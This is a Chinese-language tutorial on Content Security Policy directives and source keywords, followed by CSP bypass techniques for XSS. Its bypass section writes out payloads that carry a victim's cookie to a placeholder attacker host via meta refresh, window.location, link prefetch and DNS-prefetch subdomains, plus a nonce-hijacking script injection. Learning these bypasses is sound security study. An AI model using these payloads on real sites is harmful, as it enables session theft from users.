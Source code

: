 # CSP

内容安全策略或CSP是一种内置的浏览器安全措施，用于防御跨站点脚本（XSS）等Web攻击。该策略的规则用于定义一组浏览器可以安全地从中加载内容的路径和源，并给出相应的描述。其中，这些资源包括图像、frame、javascripts等。


一个CSP头由多组CSP策略组成，中间由分号分隔，就像这样：


```plain
Content-Security-Policy: default-src 'self' www.baidu.com; script-src 'unsafe-inline'

```



其中每一组策略包含一个策略指令和一个内容源列表


**一、常用的策略指令：**





### **default-src**





default-src 指令定义了那些没有被更精确指令指定的安全策略。这些指令包括：





**child-src**child-src 指定定义了 web workers 以及嵌套的浏览上下文（如`<frame>`和`<iframe>`）的源。

* 
**connect-src**connect-src定义了请求、XMLHttpRequest、WebSocket 和 EventSource 的连接来源。

* 
**font-src**font-src定义了字体加载的有效来源

* 
**img-src**img-src定义了页面中图片和图标的有效来源

* 
* **media-src**
* **object-src**

**script-src**script-src定义了页面中Javascript的有效来源

* 
**style-src**style-src定义了页面中CSS样式的有效来源

* 



## **二、内容源：**





内容源有三种：源列表、关键字和数据


**1、源列表**





```plain
源列表是一个字符串，指定了一个或多个互联网主机（通过主机名或 IP 地址），和可选的或端口号。站点地址可以包含可选的通配符前缀 (星号, '*')，端口号也可以使用通配符 (同样是 '*') 来表明所有合法端口都是有效来源。主机通过空格分隔。有效的主机表达式包括：    http://*.foo.com （匹配所有使用 http协议加载 foo.com 任何子域名的尝试。）    mail.foo.com:443 （匹配所有访问 mail.foo.com 的 443 端口 的尝试。）    https://store.foo.com  （匹配所有使用 https协议访问 store.foo.com 的尝试。）如果端口号没有被指定，浏览器会使用指定协议的默认端口号。如果协议没有被指定，浏览器会使用访问该文档时的协议。

```



**2、关键字**





‘none’  代表空集；即不匹配任何 URL。两侧单引号是必须的。

* 
‘self’  代表和文档同源，包括相同的 URL 协议和端口号。两侧单引号是必须的。

* 
‘unsafe-inline’  允许使用内联资源，如内联的

* 



### **3、数据**





data:  允许data: URI作为内容来源。

* 
* mediastream:  允许mediastream: URI作为内容来源。 Content-Security-Policy: default-src 'self'; img-src 'self' data:; media-src mediastream:



## CSP绕过

和XSS还是绑定在一起，毕竟需要绕过的就是XSS嘛


## 1**、url跳转**





在default-src ‘none’的情况下，可以使用meta标签实现跳转





```plain
<meta http-equiv="refresh" content="1;url=http://www.xss.com/x.php?c=[cookie]" >
1

```






在允许unsafe-inline的情况下，可以用window.location，或者window.open之类的方法进行跳转绕过。





```plain
<script>  window.location="http://www.xss.com/x.php?c=[cookie]";</script>
123

```



## 2、`<link>`标签预加载 CSP对link标签的预加载功能考虑不完善。





在Chrome下，可以使用如下标签发送cookie


```plain
<link rel="prefetch" href="http://www.xss.com/x.php?c=[cookie]">
1

```






在Firefox下，可以将cookie作为子域名，用dns预解析的方式把cookie带出去，查看dns服务器的日志就能得到cookie





```plain
<link rel="dns-prefetch" href="//[cookie].xxx.ceye.io">
1

```






## **3、利用浏览器补全**


有些网站限制只有某些脚本才能使用，往往会使用`<script>`标签的nonce属性，只有nonce一致的脚本才生效，比如CSP设置成下面这样：


```plain
Content-Security-Policy: default-src 'none';script-src 'nonce-abc'
1

```






那么当脚本插入点为如下的情况时





```plain
<p>插入点</p>    <script id="aa" nonce="abc">document.write('CSP');</script>
12

```






这样会拼成一个新的script标签，其中的src可以自由设定





```plain
<p><script src=//14.rs a="</p>    <script id="aa" nonce="abc">document.write('CSP');</script>

```





